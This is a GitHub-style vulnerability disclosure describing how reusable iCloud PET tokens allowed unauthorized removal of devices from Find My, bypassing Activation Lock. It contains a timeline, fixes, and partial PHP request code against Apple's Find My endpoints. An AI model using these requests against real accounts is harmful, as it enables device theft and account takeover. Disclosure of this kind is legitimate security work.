 # iCloud PET Token Vulnerability — Unauthorized Device Removal via Find My (Apple)

> - Reported to Apple: **March 23, 2024**  
> - Patched: **July 13, 2025** (iOS 18.5)  
> - Apple Report ID: `OE1972926887515`  
> - CVE ID: _Pending (submitted via MITRE, July 19, 2025)_

---

## Summary

This repository documents a critical vulnerability in Apple’s iCloud Find My backend that allowed unauthorized users to:

- Extract a valid **PET (Personal Entitlement Token)** from an iOS backup or proxy request.
- Use that token to impersonate the account holder against Apple’s internal device APIs.
- Remotely **remove iCloud-linked devices** by bypassing authentication and Activation Lock protections.

---

## Proof of Concept (shared privately with Apple)

1. **Extracting PET using `idevicebackup`:**  
   📹 [GETPETANDREFRESHCLIENT.MOV](https://www.mediafire.com/file/wgazlo2it9gijom/GETPETANDREFRESHCLIENT.MOV/file)

2. **Using PET to retrieve `authToken` via `authForUserDevice`:**  
   📹 [GETauthForUserDevice.MOV](https://www.mediafire.com/file/cwo2v6iyto5hrgr/GETauthForUserDevice.MOV/file)

3. **Calling `remove` endpoint to disassociate the device from iCloud:**  
   📹 [REMOVE_ICLOUD.mov](https://www.mediafire.com/file/rlwdo8yay6d5wtl/REMOVE_ICLOUD.mov/file)

---

## ⏳ Disclosure Timeline

- **2024-03-23**: Vulnerability reported to Apple Security.
- **2025-07-13**: Patch released in iOS 18.5.
- **2025-07-18**: Report acknowledged and closed by Apple.
- **2025-07-19**: CVE request submitted to MITRE.

Although over a year passed without feedback, the issue was ultimately patched and confirmed after follow-up.

---

## 🔧 Technical Overview

The vulnerability was found in Apple’s Find My Device service endpoints hosted at:

- `https://fmipmobile.icloud.com/fmipservice/device/initClient`
- `https://fmipmobile.icloud.com/fmipservice/device/refreshClient`
- `https://fmipmobile.icloud.com/fmipservice/device/authForUserDevice`
- `https://fmipmobile.icloud.com/fmipservice/device/remove`

These APIs accepted PET tokens extracted from local backups or proxy interception, without enforcing proper expiration, uniqueness, or origin verification.

---

## ✅ Solution (recommended and adopted)

As part of my disclosure, I explicitly recommended:

- Enforcing a **unique PET per session**, scoped to the **FindMyApp context**, generated by **GSA (General Service Authorization)**.
- Limiting PET validity to **2 minutes** to prevent token replay from backups or unauthorized clients.
- Binding the token to client-specific metadata to prevent cross-context abuse.

These recommendations were implemented by Apple in their July 2025 security update.

---

## 💻 Partial Proof of Concept (Reference Code)

The following examples show critical parts of the vulnerability chain.

### initClient Request

```php
$auth = base64_encode($email . ":" . $PET);
$headers = [
   'Authorization: Basic ' . $auth,
   'Proxy-Connection: keep-alive',
   'Accept-Language: en-us',
   'Content-Type: application/json; charset=utf-8',
   'X-Apple-Find-API-Ver: 3.0',
   'Connection: keep-alive',
   'X-Apple-OAuth-Client-Type: firstPartyAuth',
   'X-Apple-AuthScheme: Forever',
   'X-MMe-Client-Info: <iPhone9,3> <iPhone OS;13.3.1;13G36> <com.apple.AppleAccount/1.0 (com.apple.Preferences/181.1)'
];
$body = json_encode([
    "clientContext" => [ /* valid device info */ ],
    "serverContext" => new stdClass()
]);
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/initClient", $headers, $body);
```

###  authForUserDevice Using PET

```php


$payload = [
    "authToken" => $petToken,
    "device" => $deviceId,
    "clientContext" => [ /* cloned device metadata */ ],
    "serverContext" => [ "authToken" => $initAuthToken, "prsId" => $prsId ]
];
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/$prsId/authForUserDevice", $headers, json_encode($payload));
```

###  removeDevice Endpoint

```php


$headers = [
    "Authorization: Basic " . base64_encode("$prsId:$initAuthToken"),
    "X-Apple-Command-AuthToken: $commandAuthToken",
    "Content-Type: application/json"
];
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/remove", $headers, json_encode(["device" => $deviceId]));
```

## Responsible Disclosure

This vulnerability was reported to Apple via the official [Security Bounty Program](https://support.apple.com/en-us/102774), under tracking ID `OE1972926887515`.

All proof-of-concept material was shared privately and in accordance with Apple’s disclosure guidelines.  
A CVE ID has been requested through MITRE and is pending publication.

---

## Author

**Gerson Aldaz**  
Security Researcher  
📧 aldazactivator@gmail.com  
🌐 GitHub: [github.com/GersonAldaz](https://github.com/AldazActivator)

---

## 📄 License

This documentation is released under the [MIT License](LICENSE).

> This disclosure is for educational and transparency purposes only, in support of better industry-wide security practices.
